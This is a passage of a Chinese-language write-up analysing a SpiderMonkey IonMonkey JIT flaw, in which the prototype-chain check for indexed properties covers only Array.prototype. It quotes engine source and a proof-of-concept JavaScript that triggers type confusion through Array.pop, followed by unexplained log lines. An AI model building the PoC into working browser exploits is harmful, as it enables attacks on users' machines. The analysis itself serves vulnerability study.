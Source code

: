 `a` 的`prototype chains` 如下

```
a.__proto__ --&gt; Array.prototype --&gt; Object.prototype --&gt; null
```

`ArrayPrototypeHasIndexedProperty` 会检查`Array.prototype` 是否有index类型的`properties` , 例如`a.__proto__.m = [1.1,2.2,3.3]` 这个检查发生在`IonBuilder::inlineArrayPopShift`,`IonBuilder::inlineArrayPushShift`以及`IonBuilder::inlineArraySlice` 函数中，他们会在jit中进入`inline cache`时调用.

```
AbortReasonOr&lt;bool&gt; jit::ArrayPrototypeHasIndexedProperty(IonBuilder* builder,
                                                          JSScript* script) `{`
  if (JSObject* proto = script-&gt;global().maybeGetArrayPrototype()) `{`
    return PrototypeHasIndexedProperty(builder, proto);
  `}`
  return true;
`}`
```

这里的漏洞在于检查的不充分，执行`b=[1.1,2.2];  a.__proto__=b`, 原型链就会变成

```
a.__proto__ --&gt; b.__proto__ --&gt; Array.prototype --&gt; Object.prototype --&gt; null
```

因为只检查了`Array.prototype` ，所以并不会检查`b` 上是否有`indexed` 类型的`properties`



## 漏洞利用

### <a class="reference-link" name="poc%20%E5%88%86%E6%9E%90"></a>poc 分析

`saelo` 给出了漏洞的poc 如下

```
// Run with --no-threads for increased reliability
    const v4 = [`{`a: 0`}`, `{`a: 1`}`, `{`a: 2`}`, `{`a: 3`}`, `{`a: 4`}`];
    function v7(v8,v9) `{`
        if (v4.length == 0) `{`
            v4[3] = `{`a: 5`}`;
        `}`    
        const v11 = v4.pop();
        // v11 被认为是一个 object
        v11.a;

        // 执行之后会进入 jit
        for (let v15 = 0; v15 &lt; 10000; v15++) `{``}`
    `}`

    var p = `{``}`;
    p.__proto__ = [`{`a: 0`}`, `{`a: 1`}`, `{`a: 2`}`];
    p[0] = -1.8629373288622089e-06;// 0x4141414141414141
    v4.__proto__ = p;

    for (let v31 = 0; v31 &lt; 1000; v31++) `{`
        v7();
    `}`
```


[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96